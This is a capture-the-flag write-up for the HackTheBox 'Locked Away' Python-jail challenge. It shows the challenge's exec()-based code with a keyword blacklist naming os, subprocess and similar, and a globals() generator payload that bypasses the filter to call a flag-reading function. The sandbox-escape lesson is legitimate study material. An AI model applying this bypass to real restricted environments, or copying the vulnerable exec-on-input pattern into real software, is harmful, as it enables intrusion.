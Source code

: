 ```yaml
---
title: "[HTB] Locked Away Writeup \U0001F512"
cover: >-
  https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/help-you-at-solving-hackthebox-htb-challenges-machines.png
categories:
  - - HackTheBox
  - - CTF
tags:
  - HTB
  - Misc
  - HackTheBox
abbrlink: f9317c8b
date: 2024-10-11 12:00:53
---
```


# 0x00 Challenge Info

> A test! Getting onto the team is one thing, but you must prove your skills to be chosen to represent the best of the best. They have given you the classic - a restricted environment, devoid of functionality, and it is up to you to see what you can do. Can you break open the chest? Do you have what it takes to bring humanity from the brink?

# 0x01 Reconnaissance

This challenge is a Python jail (Pyjail). Let's check the challenge code first.

```python
banner = r"""
.____                  __              .___    _____                        
|    |    ____   ____ |  | __ ____   __| _/   /  _  \__  _  _______  ___.__.
|    |   /  _ \_/ ___\|  |/ // __ \ / __ |   /  /_\  \ \/ \/ /\__  \<   |  |
|    |__(  <_> )  \___|    <\  ___// /_/ |  /    |    \     /  / __ \\___  |
|_______ \____/ \___  >__|_ \\___  >____ |  \____|__  /\/\_/  (____  / ____|
        \/          \/     \/    \/     \/          \/             \/\/     
"""


def open_chest():
    with open("flag.txt", "r") as f:
        print(f.read())


blacklist = [
    "import",
    "os",
    "sys",
    "breakpoint",
    "flag",
    "txt",
    "read",
    "eval",
    "exec",
    "dir",
    "print",
    "subprocess",
    "[",
    "]",
    "echo",
    "cat",
    ">",
    "<",
    '"',
    "'",
    "open",
]

print(banner)

while True:
    command = input("The chest lies waiting... ")

    if any(b in command for b in blacklist):
        print("Invalid command!")
        continue

    try:
        exec(command)
    except Exception:
        print("You have been locked away...")
        exit(1337)
```

This code created a restricted environment that banned some word and function, so how do we get the flag? First of all, we noticed that there's a function called `open_chest()`, and how to call that is the key point to this challenge. 

I noticed that the blacklist didn't forbidden the `()` & the `_`, that means we can use some magic function in python. There's a function called `globals()` in python that will return a dictionary of all global variables in the current module with the name as the key and the corresponding object as the value. This make us to call a function without typing that name of the function! So let's create the payload right away! 

# 0x02 Exploit

We can create a generator in python to iterate all global variables and filter the callable object (functions, method, etc). Following is the code of the generator.

```python
(f for f in globals().values() if callable(f))
```

Then, we need to find the first callable global variable, which is `open_chest()` in this challenge, so we can use the `__next__()` method to get the element in the iterator. 

```python
(f for f in globals().values() if callable(f)).__next__()
```

This will return the first callable function in this program, the last thing is to call it by adding `()` to it!

```python
(f for f in globals().values() if callable(f)).__next__()()
```

Voila! We got the flag!

![Pwned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20241011122557742.png)

# 0x03 Pwned

![Pwned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20241011122714880.png)

